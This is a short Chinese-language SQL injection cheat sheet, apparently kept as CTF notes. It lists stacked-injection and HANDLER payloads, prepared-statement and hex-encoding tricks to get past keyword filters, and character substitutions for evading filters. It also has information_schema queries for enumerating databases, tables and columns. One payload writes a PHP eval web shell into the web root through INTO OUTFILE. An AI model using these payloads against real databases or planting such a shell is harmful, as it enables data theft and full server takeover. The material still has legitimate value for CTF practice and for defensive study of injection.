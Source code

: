 ```python

#堆叠注入
1'; show tables;%23

#预处理绕过字符限制
Set @a=concat('selec','t from xxx');
prepare h from @a;
execute @a;
#16进制绕过
将 select * from xxx 进行16进制编码得到
73656c656374202a2066726f6d20787878
#则公式变为
Set @a=0x73656c656374202a2066726f6d20787878;
prepare h from @a;
execute @a;

#16进制写马
Set @a=0x(转16进制 select "<?php eval($_POST[1];?>" into outfile "/var/www/html/a.php";);
prepare h from @a;
execute @a;

#handler注入
1';handler `1919810931114514` open as aaa;handler aaa read first;handler aaa read next;

#引号被过滤
select * from user where username='flag'
select * from user where username=0x666c6167

```



##### 偏移注入
```sql
//使用 <table_name>.*代替字段名
select * from table; ==>
```

> sleep 可以用benchmark代替
>  
> <,> 可以用least(),greatest()代替
>  
> =,in 可以用like代替
>  
> substr 可以用mid代替
> 
> 空格 可以用/\*\*/代替

## mysql
```sql
//查询库名
select group_concat(SCHEMA_NAME)from(information_schema.schemata)
//查询库中所有表名
select group_concat(table_name)from(information_schema.tables)where(table_schema='myapp')
//查询所有字段名
select group_concat(column_name)from(information_schema.columns)where((table_schema='myapp')and(table_name='user'))#


```
